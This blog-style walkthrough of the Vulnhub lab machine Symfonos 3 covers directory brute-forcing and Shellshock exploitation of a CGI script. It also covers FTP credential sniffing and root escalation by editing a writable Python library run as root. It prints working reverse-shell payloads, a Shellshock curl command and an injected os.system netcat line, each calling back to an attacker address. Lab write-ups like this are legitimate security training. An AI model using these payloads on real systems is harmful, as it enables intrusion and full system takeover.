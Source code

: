 ```yaml
---
layout:     post
title:      "Vulnhub - Symfonos 3"
subtitle:   "Write-Up"
date:       2019-08-04 
author:     "D4mianwayne"
tags:    ["nmap, ctf, vulnhub"]
img:  "/img/vulnhub.png"
categories: ["Vulnhub"]
layout: "simple"

---
```


This is a walkthrough of Symfonos 3 which is 3rd machine in Symfonos series.

<!-- more -->

# Nmap

Let's scan the network and start working on the machine right away. Using `nmap -sV -sC -A -p- -T5 192.168.43.22` shows that we have FTP, SSH and HTTP.

![](/img/symfonos3/nmap.png)

# HTTP Enumeration

This was kind of time consuming since it involves lots of nested directory busting, I mostly use gobutser so with some bash scripting I automated the scan by updating the script with every finding. 
My strategy for that was to copy every dictionary/wordlists into a single directory and using the bash we used it to find the directories. I used **dirbuster** and **dirb** wordlists only.

```
#!/bin/sh
for i in $(pwd)/*.txt; do
    gobuster dir -u http://192.168.43.22 -w "$i" | grep Status: 
done
```

First, I found `gate`, then `cerberus` after that `tartarus`. After that I tried again with the script this time we got more than 4 hits:-

```
=============================================================== 
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.43.22/gate/cerberus/tartarus/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/08/04 01:28:56 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/charon (Status: 301)
/hermes (Status: 301)
/research (Status: 200)
===============================================================
```
 
But somehow `research` was a rabbit hole, perhaps a wild goose chase for us. Then, I tried again with `cgi-bin` from previous findings. Now directory busting to the `http://192.168.43.22/cgi-bin`, I found a hit at `underworld`. PS: In case you don't know about greek mythology, underworld is home of the god **Hades**.

```
#!/bin/sh
for i in $(pwd)/*.txt; do
    gobuster dir -u http://192.168.43.22/cgi-bin -w "$i" | grep Status: 
done
```

***
root@kali:/usr/share/wordlists/dirb# ./new.sh
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.hta (Status: 403)
/underworld (Status: 200)
*** 

![](/img/symfonos3/underworld.png)
There, we got the `underworld`, the real game begins from here.

# Reverse Shell and FTP Network Sniffing

From that page we can see that it's saying `uptime`, I tried to enumerate more but somehow none worked. I switched to some research on similar machines to get information about this thinking that it might have been some kind of task of a machine.
From that I found a machine from PentesterLab which has **kind of** vulnerability but after checking it I was confirmed that it was same. The vulnerability is named **ShellShock**. In this type of vulnerablity you have the pass the bash command as a User-Agent for that particular request. So, using the following command with the help of curl, we get a reverse shell on our host machine.

```
robin@oracle:~$ curl -A "() { :; }; /bin/bash -c 'nc 192.168.43.243 1337 -e /bin/sh'" http://192.168.43.22/cgi-bin/underworld
```

Once, we get reverse shell I found out we have privilge of cerberus, so from some basc enumeration I didn't found anything so I thought of using the `pspy` script which is useful for tracing the background proccesses. Using `pspy`  after using wget to grab it from server I found out there is a ftp server is running in the background. I thought of checking the directory too but permission denied. 
Now, I started grabbing the network dump using tcpdump since it ws available for usage, using `tcpdump -w ftplog.pcap -i lo`, the FTP server was runiing on the `lo` interface because the other one has our reverse shell connected to using shellshock. SInce, I first grabbed the `en0ps17` but I saw that our curl is making request to server. 

![](/img/symfonos3/pspy.png)

>Warning: Let the tcpdump run for 5-10 minutes so you can grab enough data to analyse.

I saved the file in `/tmp` folder and started a HTTP server using python `python -m SimpleHTTPServer 1234` and grabbed the `ftplog.pcap` right away from `http://192.168.43.22:1234`.

After opening it in wireshark and filtering out the packets for FTP only with `tcp.port == 21`, I got some packets with FTP service and following TCP Stream of that packet I found the user `hades` password.

![](/img/symfonos3/hades.png)

# Root 

Once you SSH into the system as user **hades** with the above password you'll find out that we have the same thing as user cerberus. So, the last option was to run the `pspy` again, doing that so I found that we have nothing more nothing less than previous scan. I started trying again in ftpclient, this time we can access the folder which has a python script which is running the server by the **root** itself. So, there is **more to see than meets the eye**. 

After analysing the script I found that script is using a module named `ftplib.py` in `/opt/ftpclient` which is running as root, as from my previous experience I thought that we need to edit the module file itself to get root privilges or anything to get moving. I checked permission and it turns out we can edit it since the user `hades` ia belong to group `gods`. 

![](/img/symfonos3/ftpclient.png)

Now, I added a line `os.system("nc 192.168.43.243 4444 -e /bin/bash)` in the file so that once the script will be run our reverse shell gets executed giving a root shell. So, once done I started my listener and start analysing the process again, once that script runs we have the shell as **root**.
Hence, the flag. 

![](/img/symfomos3/root.png)

Thanks to [@zayotic](https://twitter.com/zayotic) for making this wonderful machine.



